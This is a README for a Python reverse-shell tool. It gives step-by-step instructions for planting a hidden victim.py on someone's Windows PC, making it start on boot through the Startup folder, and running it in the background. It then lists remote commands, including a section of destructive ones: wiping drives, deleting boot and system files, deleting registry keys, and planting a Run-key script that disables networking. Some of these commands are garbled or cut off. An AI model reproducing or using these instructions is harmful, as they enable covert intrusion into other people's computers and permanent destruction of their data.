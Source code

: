 # REVERSE SHELL

Description: This program is a python based reverse-shell attack tool which is cross-platform.

**_HOW TO RUN:_**

To run this (windows 7-10):

**_ATTACKER PART:-_**
STEP-1: Type ipconfig in cmd to check your local ipv4.

STEP-2: Change victim.py file's server variable to your local ipv4

STEP-3: Run py attacker.py on attacker computer


(ATTACKER COMPUTER SHOULD BE ON THE SAME LOCAL NETWORK AS THE VICTIM'S PC)


Next, you need to plant the victim.py file on your victim's computer, make it hiddenn and add it to startup programs list.


**_VICTIM PART_**
(MAKE SURE VICTIM HAS PYTHON 3.6 or higher as python 3.6 or lower version do not support the new threading module)
STEP-1: Plant the file
STEP-2: Make it Hidden - To make the file hidden, Right click on the file, click on hidden then click Apply and then Click Ok
STEP-3: Add the file to startup folder - "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"


THIS PUT'S THE FILE IN STARTUP FOR ALL USERS, TO PUT IT IN STARTUP FOR ONLY ONE USER, ADD THE FILE TO THE FOLLOWING DIRECTOR -
C:\Users\[User Name]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.


STEP-4: Open cmd in that folder and type: pythonw s.py


The w flag added after python makes the file run in background


STEP-5: Now the reverse-shell file is running in the background and you can close the current shell (cmd/terminal)


Now you can run every command that a normal cmd user can run from the attacker's computer
Here are some basic commands to get you started:-


Start chrome - start chrome
Start notepad - start notepad
Open a URL - start {url here}
Shutdown Computer - shutdown /s
Network Details - ipconfig
List Director - dir
Network Statistics - netstat
ping an ip/url - ping {ip/url}
Trace Route of ip/url - tracert {ip/url}
Power configuration - powercfg
Basic User Details - whoami
System Information - systeminfo
Schedule Tasks - schtasks {task}


DANGEROUS COMMANDS:
Don't use for pranks, these commands can permanently harm a pc's software/hardware so even changing os won't work to fix some issues.


i) Format Hard drives :-


rd/s/q/ D:\
rd/s/q/ C:\
rd/s/q/ E:\


ii) Delete System 32 Files :-


attrib -r -s -h c:\autoexec.bat
del c:\autoexec.bat
attrib -r -s -h c:\boot.ini
del c:\boot.ini
attrib -r -s -h c:\ntldr
del c:\ntldr
attrib -r -s -h c:\windows\win.ini
del c:\windows\win.ini


iii) Delete All System Files:-


del*.*


Delete Registry Entry:-
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/\*


iv) Disable Internet Permanently


echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:window


v) Windows Blue Screen of Death


@echo off
delete %systemdrive%\*.\* /f /s


FOR MORE INFO, Contact Developer :-


email: arjunagnihotri14a@gmail.com
